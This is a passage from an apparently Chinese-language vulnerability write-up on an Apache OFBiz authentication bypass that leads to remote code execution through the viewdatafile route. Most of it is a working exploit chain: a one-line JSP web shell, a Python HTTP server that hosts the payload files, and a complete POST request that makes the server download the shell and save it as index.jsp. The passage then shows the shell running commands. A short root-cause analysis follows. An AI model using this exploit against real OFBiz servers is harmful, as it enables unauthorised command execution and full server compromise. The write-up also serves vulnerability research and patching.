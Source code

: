 rcereport.csv:  
```
<% Runtime.getRuntime().exec(request.getParameter("cmd"));%>
```  
  
起一个http服务，将这两个文件放到目录下。  
               
```
python -m http.server 8888
```  
  
请求包：  
```
POST /webtools/control/forgotPassword/viewdatafile HTTP/1.1              
Host: 127.0.0.1:8443              
Cookie: OFBiz.Visitor=10100              
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0              
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8              
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2              
Accept-Encoding: gzip, deflate, br              
Upgrade-Insecure-Requests: 1              
Sec-Fetch-Dest: document              
Sec-Fetch-Mode: navigate              
Sec-Fetch-Site: none              
Sec-Fetch-User: ?1              
Priority: u=0, i              
Te: trailers              
Connection: keep-alive              
Content-Type: application/x-www-form-urlencoded              
Content-Length: 241              

DATAFILE_LOCATION=http://127.0.0.1:8888/rcereport.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://127.0.0.1:8888/rceschema.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSFHccYRqppb2WXIOrfmNric55d3giaUArfrkMibvUQQOZQloCrLrL4RaMdA/640?wx_fmt=png "")  
  
访问   
https://127.0.0.1:8443/accounting/index.jsp?cmd=calc  
，成功执行命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSFY7wWgELSC8koicNUCaEI9PUpw8K5lYZghIqiaUIu1Zujpurx1uvwq5zw/640?wx_fmt=png&from=appmsg "")  
  
  
### 2-3. 漏洞分析    
  
权限绕过的原理和之前一样，通过不需要鉴权的路由来绕过。触发命令执行的文件不同，之前利用的是 ProgramExport.groovy，现在利用 ViewDataFile.groovy 。  
  
在 controller.xml 中定义了路由  
/viewdatafile  
，  
security.auth  
为true，直接访问需要权限。视图指向  
component://webtools/widget/MiscScreens.xml#viewdatafile  
，会调用 ViewDataFile.groovy 脚本。  
  